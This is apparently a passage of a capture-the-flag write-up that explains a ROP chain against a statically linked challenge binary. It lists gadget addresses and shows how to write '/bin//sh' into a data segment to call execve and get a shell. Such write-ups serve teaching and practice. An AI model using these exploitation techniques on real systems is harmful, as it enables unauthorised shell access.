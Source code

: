 - So, we can ignored this do_stuff function and move to win function, which we'll use to get shell.

- This program has statically linked, so it can have some gadget that we can use to ROP to excecute exceve("/bin/sh", 0, 0).

- After use some command of ROPgadget, I found this

```
0x00000000004163f4   : pop rax ; ret      rax <- 0x3b 
0x0000000000400696   : pop rdi ; ret      rdi <- "/bin/sh"
0x0000000000410ca3   : pop rsi ; ret      rsi <- 0
0x000000000044a6b5   : pop rdx ; ret      rdx <- 0
0x000000000040137c   : syscall
```

- Unfortunately, the binary does not have "/bin/sh" string, so we must find some gadget to overwrite to data segment.

```
0x000000000048dd72   : mov dword ptr [rax], edx ; ret
```

- We must choose the clean data segment, that does not have any weird value in that segment. And I found it is `0x6b760c`
- To overwrite the `0x6b760c`, we take advantage of pointer. Which in C code is

```
int *p = (int*) 0x6b760c    // Assume that after 0x6b7610 is 0x00000000
*p = 0x6e69622f             // 'nib/' -> '/bin'
*(p + 1) = 0x68732f2f       // 'hs//' -> '//sh'

// -> printf("%s", (char*)0x6b76c);   will print the "/bin//sh"
```
- With ROP, I implement it with reference the address hold in eax, and change it to value of edx.

```
pop     rax  ; After this instruction on stack is 0x6b760c
ret

pop     rdx  ; After this instruction on stack is '/bin', it's '/bin' because of little endian 
ret

mov     dword ptr [rax], edx
ret

pop     rax  ; After this instruction on stack is 0x6b7610
ret

pop     rdx  ; After this instruction on stack is '//sh'
ret

mov     dword ptr [rax], edx
ret

|           . . . . . . .
|   +--------------------------+    <- esp
|   | pop   rax                |
|   | ret                      |
|   +--------------------------+
|   |        0x6b760c          |
|   +--------------------------+
|   | pop   rdx                |
|   | ret                      |
|   +--------------------------+
|   |        '/bin'            |
S   +--------------------------+
t   | mov  dword ptr [rax],edx |
a   | ret                      |
c   +--------------------------+
```